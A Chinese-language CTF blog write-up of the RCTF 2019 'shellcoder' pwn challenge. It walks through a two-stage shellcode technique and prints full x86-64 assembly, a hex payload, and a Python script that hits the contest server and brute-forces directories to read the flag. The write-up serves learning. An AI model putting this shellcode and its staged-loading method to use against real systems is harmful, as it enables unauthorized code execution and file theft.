 ```yaml
---
layout:     post
title:      "Rctf 2019"
date:       2019-05-20
author:     "Ambi9u0us"
catalog: true
tags:
    - ctf
    - Writeup
    - RCTF 2019
	- Pwn
typora-root-url: ..
---
```


# RCTF 2019 Writeup

## 前言

这次RCTF2019感觉好难，一个原因就在于看了几道题感觉都要会熟练编写使用脚本才行，比如我最终做出来的`shellcoder`，就涉及到一个自动化脚本的编写，而且最后做出来也有一部分的运气因素，真心感觉要学的东西还有很多。

## 题目分析

首先，用IDA分析一下shellcoder，主要函数如下：

![1558319328337](/img/in-post/1558319328337.png)

这个文件主要是调用syscall实现了sys_alarm，sys_read，sys_write，sys_mmap这四个函数。通过sys_mmap创建了一个7字节的空间，后面使用一大段的0xF4来进行截断，然后调用sys_read读取用户输入，通过Jumpto来运行读入的shellcode。

通过调试发现，执行用户输入的shellcode时，除了`rdi`寄存器不为0，其他寄存器都被置0，故构造shellcode的相关汇编代码为：

```assembly
dec edx
xchg rsi,rdi
syscall
```

在当前情境下，这三条代码实现了`sys_read`的功能，这样我们就可以不受长度限制的再次发送shellcode，然后我发送了一段实现execv(‘bin/sh’)的shellcode，发现并没有get shell，猜测服务器上禁用了sys_execve的调用，所以必须换一种方式去获取flag。

这里想到的办法是通过调用sys_open，getdents和sys_write来实现ls的功能，汇编代码参考链接[在此](https://github.com/t00sh/assembly/blob/master/shellcodes/linux/x86-64/ls_syscall.asm)，可以参考该链接处的汇编代码来生成shellcode，生成shellcode的命令为：

```shell
nasm -f bin shellcode.asm -o shellcode && hexdump -v -e '"\\" "x" 1/1 "%02X"' shellcode; echo
```

最后我编写的asm脚本如下：

```assembly
BITS 64
	GLOBAL _start
_start:	
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor rax,rax
	mov al, 2
	lea rdi, [rel $ +0x4d] 
	xor rsi, rsi
	xor rdx, rdx
	syscall	
	mov rdi,rax 		
	xor rdx,rdx
	xor rax,rax
	mov dx, 0x120	
	sub rsp, rdx 	
	mov rsi, rsp 	
	mov al, 78 	
	syscall
	xchg rax,rdi
	xor rax, rax
	xor rdi,rdi
	inc eax
	inc edi
	mov rsi, rsp
	syscall
	xor rax, rax
	mov al, 60
	syscall
	xor rax, rax
	xor rdi,rdi
	inc eax
	inc edi
	mov rsi, rsp
	syscall
```

前面的nop是因为第一次实现sys_read后，跳转到达shellcode时前7个字节被覆盖，所以使用nop来保护shellcode被损坏，同时`lea rdi, [rel $ +0x4d]`这一行是学习Defcon ctf 2019的Hotel_California这道题的exp时get到的新姿势，感觉十分好用，其作用就是获取这段shellcode后的字符串起始地址，因为rdi就是这里面sys_open的文件名参数，这样在后面编写脚本的时候就可以愉快的用字符串表示，而不用考虑各种参数压栈时避免\x00字符截断的问题，还不用考虑ASCII码转换，所以最后的python脚本为：

```python
#!usr/bin/env python

from mypwn import *

def dirname(s):
	tt = []
	for i in xrange(24):
		if (s[8*i]=='\x18' and s[8*i+7]=='\x04' and s[8*i+2]!='\x2e'):
			k = s[8*i+2:8*i+6]
			#print k
			tt.append(k)
	return tt
	

code = '''
start:
    dec edx
	xchg rsi,rdi
    syscall
'''
shellcode=asm(code,os="linux",arch="amd64")

payload = '\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xC0\xB0\x02\x48\x8D\x3D\x46\x00\x00\x00\x48\x31\xF6\x48\x31\xD2\x0F\x05\x48\x89\xC7\x48\x31\xD2\x48\x31\xC0\x66\xBA\x20\x01\x48\x29\xD4\x48\x89\xE6\xB0\x4E\x0F\x05\x48\x97\x48\x31\xC0\x48\x31\xFF\xFF\xC0\xFF\xC7\x48\x89\xE6\x0F\x05\x48\x31\xC0\xB0\x3C\x0F\x05\x48\x31\xC0\x48\x31\xFF\xFF\xC0\xFF\xC7\x48\x89\xE6\x0F\x05'
a = ['rrfh/lmc5/nswv/o1oc/v1jx','rrfh/lmc5/nswv/1rdr/zkz1','rrfh/lmc5/nswv/1rdr/cx4e','rrfh/lmc5/nswv/1rdr/rr3h','rrfh/lmc5/nswv/1rdr/qce0','rrfh/lmc5/nswv/yojm/rcij','rrfh/lmc5/nswv/yojm/gn5d','rrfh/lmc5/nswv/yojm/wst5','rrfh/lmc5/nswv/yojm/x2u3','rrfh/lmc5/kq2t/gk8t/0mdp']
aaa = 'flag'

f = open('1.txt',"rb+")
f2 = open('2.txt','rb+')
for pp in a:
	p, elf,libc = init_pwn('./shellcoder',('106.52.252.82',20002),'',[0x3ab],True)
	ru(':')
	sn(shellcode)
	p.send(payload+'flag/'+pp+'\x00')
	s = p.recv()
	if aaa in s:
		print pp
		p.close()
		break
	yy = dirname(s)
	if yy == []:
		print "failed"
		p.close()
		continue
	for xx in yy:
		a.append(pp+'/'+xx)
		f.write(pp+',')
		f2.write(",'"+pp+'/'+xx+"'")
	p.close()
f.close()
f2.close()
```

emmm，感觉非常不优雅，由于我写的这个脚本是采取广搜的方式不断找出各个路径名，但是这样导致的问题就是过多的socket交互会加重服务器地负担，所以现实情况就是每运行一小段时间就会被服务器断开连接，所以才有了脚本中我设置地两个文件`1.txt`和`2.txt`，前者用来记录已经查找过的路径，后者用来记录新生成的路径，所以我还是在手动解决问题，而且还是爆破，然后由于我一开始就是选择的rrfh这个文件夹，跑了一段时间后，在后面又好运地选到了脚本中我写入数组a中的路径，所以后面再使用这个脚本跑地时候，几分钟就跑出了结果，找到了最终地flag路径`flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag`，真是不容易。

再使用sys_open，sys_read，sys_write，就可以编写具有cat功能的asm脚本：

```assembly
BITS 64
	GLOBAL _start
_start:	
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor rax,rax
	xor rdx,rdx
	xor rsi,rsi

	;because after the shellcode is filename in shellcode2.py
	lea rdi, [rel $ +0x29]
	push 1
	pop rdx
	xor esi, esi
	push 2
	pop rax
	syscall
	mov rdi, rax
	xor eax, eax
	mov rsi, rsp
	push 0x7f
	pop rdx
	syscall
	mov rdx, rax
	push 1
	pop rax
	mov rdi, rax
	syscall
	;nasm -f bin shellcode.asm -o shellcode && hexdump -v -e '"\\" "x" 1/1 "%02X"' shellcode; echo
```

同样的shellcode后面要自己加上要读取的文件相对路径名，最后得到flag：

`rctf{1h48iegin3egh8dc5ihu}`

## 后记

根据官方的公告，这道题并不需要就行爆破多次交互，只需要发送一段足够健壮的shellcode就行，也就是说这些遍历搜索的功能应该在shellcode中就实现，这应该才是优雅地解决方式，无奈我的shellcode编写水平还是有限，所以第一时间还是选择了使用python脚本爆破，实在是😓。